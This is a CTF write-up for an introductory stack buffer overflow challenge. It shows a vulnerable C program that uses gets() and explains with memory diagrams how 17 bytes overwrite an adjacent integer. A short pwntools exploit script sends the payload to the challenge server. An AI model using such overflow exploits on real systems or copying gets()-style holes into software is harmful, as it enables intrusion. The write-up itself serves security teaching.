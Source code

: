 # Bof1

Bof1 is the first buffer overflow challenge of the CTF. In this case, our buffer overflow is a stack-based buffer overflow which means we'll end up overwriting values on the stack to get the flag. The full program is posted below for convenience.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void handler(int num){
    printf("Bye!\n");
    exit(-1);
}

int main(void){
    volatile int modified = 0;
    char buffer[16];

    signal(SIGALRM, handler);
    alarm(5);

    gets(buffer);

    if (modified){
        system("cat ./flag.txt");
        exit(0);
    } else {
        printf("Try again!\n");
        exit(1);
    }

    return 0;
}
```

Taking a cursory look at the program we notice a few things:

1. The program will exit after 5 seconds of being alive:

```C
void handler(int num){
    printf("Bye!\n");
    exit(-1);
}
...
signal(SIGALRM, handler);
alarm(5);
```

2. There is a character array and an integer. The character array has enough space on the stack for 16 characters. One thing to note here is that they are contiguous (right next to eachother/touching) in memory.

```C
volatile int modified = 0;
char buffer[16];
```

3. There is a call to `gets`. The `gets` function is inherently dangerous. If you run the command `man gets` to see get's manpage, you will see the security notice at the bottom:

> SECURITY CONSIDERATIONS
>     **The gets() function cannot be used securely**.  Because of its lack of
>     bounds checking, and the inability for the calling program to reliably
>     determine the length of the next incoming line, **the use of this function
>     enables malicious users to arbitrarily change a running program's func-
>     tionality through a buffer overflow attack**.  It is strongly suggested
>     that the fgets() function be used in all cases.  (See the FSA.)

```C
gets(s.buffer);
```

This means that we can send an unlimited amount of data to the program which will be written into the buffer without regard for any safety considerations.

4. In order to win, the integer in the struct, modified, must not be equal to zero.

```
if(modified){
    system("cat ./flag.txt");
    exit(0);
} else {
    printf("Try again!\n");
    exit(1);
}
```

Now that we have completely analyzed the program, we can plan our attack.

Our struct looks like this in memory:

```
+============================+
|           STACK            |
+======================+=====+
|         buffer       | mod |
+---+---+---+-----+----+-----+
| 0 | 1 | 2 | ... | 15 |  0  |
+===+===+===+=====+====+=====+
```

In this case, the numbers on the bottom represent the index for each element. From here on out, the numbers on the bottom will represent values in memory.

If we were to write "AB" to the buffer, it would look like this:

```
+============================+
|           STACK            |
+======================+=====+
|         buffer       | mod |
+---+---+---+-----+----+-----+
| A | B | 0 | ... |  0 |  0  |
+===+===+===+=====+====+=====+
```

What if we wrote 16 A's?

```
+============================+
|           STACK            |
+======================+=====+
|         buffer       | mod |
+---+---+---+-----+----+-----+
| A | A | A | ... |  A |  0  |
+===+===+===+=====+====+=====+
```

This isn’t devastating as we didn’t corrupt any memory, but the buffer no longer contains a valid C string. Recall that C strings must be null-terminated. If mod was not set to 0, a call to printf would have trouble knowing where to stop and it would continue printing until it hit a NULL character.

What would happen if we wrote 17 A's?

```
+============================+
|           STACK            |
+======================+=====+
|         buffer       | mod |
+---+---+---+-----+----+-----+
| A | A | A | ... |  A |  A  |
+===+===+===+=====+====+=====+
```

Our integer, modified, has been modified! We successfully exploited the buffer overflow and overwrote the integer with our own value, thus printing the flag.

A simple example of this exploit in pwntools would look like:

```Python
#!/usr/bin/env python2

from pwn import *

context.update(arch='amd64', os='linux')

r = remote('bootcamp.ctf.cuctf.io', 9000)
payload = "A" * 0x11
r.sendline(payload)
r.interactive()
```
